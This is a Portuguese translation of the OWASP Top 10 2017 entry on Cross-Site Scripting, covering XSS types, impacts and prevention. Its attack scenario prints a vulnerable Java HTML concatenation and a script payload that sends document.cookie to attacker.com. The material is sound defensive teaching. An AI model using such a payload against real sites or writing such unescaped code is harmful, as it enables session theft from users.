 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de Ataque | Vulnerabilidades de Segurança | Impactos |
| -- | -- | -- |
| Nível de Acesso \| Explorabilidade 3 | Prevalência 3 \| Detectabilidade 3 | Técnico 2 \| Negócio |
| Ferramentas automatizadas podem detectar e explorar as três formas de XSS, e existem frameworks de exploits disponíveis gratuitamente. | XSS é o segundo problema mais prevalente no OWASP Top 10, e é encontrado em cerca de dois terços de todas as aplicações. As ferramentas automatizadas podem encontrar alguns problemas XSS automaticamente, particularmente em tecnologias maduras, como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para refletido e DOM XSS, e grave para XSS armazenado, com execução remota de código no navegador da vítima, como roubar credenciais, sessões ou entregar malwares à vítima. |

## A Aplicação Está Vulnerável?

Existem três formas de XSS, geralmente visando os navegadores dos usuários:

* **XSS Refletido**: Sua aplicação ou API inclui entradas de usuário não validadas e não modificadas como parte da saída HTML. Um ataque bem sucedido pode permitir que o atacante execute HTML e JavaScript arbitrários no navegador da vítima. Normalmente, o usuário precisará interagir com algum link malicioso que aponte para uma página controlada pelo atacante, como sites maliciosos de *watering hole*, propagandas ou similares.
* **XSS Armazenado**: Sua aplicação ou API armazena entradas de usuário não sanitizadas que é vista mais tarde por outro usuário ou administrador. O XSS armazenado é frequentemente considerado de risco alto ou crítico.
* **DOM XSS**: Frameworks de JavaScript, aplicativos de uma única página (SPAs) e APIs que incluem dinamicamente dados controláveis pelo atacante para uma página são vulneráveis ao DOM XSS. Idealmente, sua aplicação não enviaria dados controláveis pelo atacante para APIs de JavaScript inseguras.

Ataques XSS típicos incluem o roubo de sessão, a aquisição de contas, *bypass* de MFA (MultiFactor Authentication), a substituição de nós DOM ou o desfiguramento (como os painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, *key logging* e outros ataques do lado do cliente.

## Como Prevenir

Prevenir XSS requer a separação de dados não confiáveis do conteúdo ativo do navegador. Isso pode ser alcançado por:

* Use frameworks que automaticamente escapam o XSS por design, como os mais recentes Ruby on Rails, React JS. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Usar frameworks que automaticamente sanitizam o XSS por design, como Ruby on Rails e React JS mais recentes. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Sanitizar por *escape* dados de solicitação HTTP não confiáveis com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) irá resolver vulnerabilidades XSS refletidas e armazenadas. A [Folha de Dicas OWASP 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) contém detalhes sobre técnicas de *escape* de dados necessárias.
* Aplicar *encoding* sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra DOM XSS. Quando isso não puder ser evitado, técnicas de *escaping* sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na Folha de Dicas OWASP 'DOM Based XSS Prevention'.
* Habilitar um [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é um controle de mitigação de defesa profunda contra o XSS. É eficaz se não existem outras vulnerabilidades que permitiriam colocar códigos maliciosos através de arquivos locais (por exemplo, sobrescritas de *path traversal* ou bibliotecas vulneráveis em fontes permitidas).

## Examplo de Cenários de Ataque

**Cenário 1**: A aplicação usa dados não confiáveis na construção do seguinte fragmento HTML sem validação ou *escaping*:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
O atacante modifica o parâmetro 'CC' no navegador para:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Este ataque faz com que a ID da sessão da vítima seja enviada para o site do invasor, permitindo que o invasor seqüestra a sessão atual do usuário.

**Nota**: Atacantes podem usar XSS para derrubar qualquer defesa CSRF automatizada que a aplicação possa empregar.

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

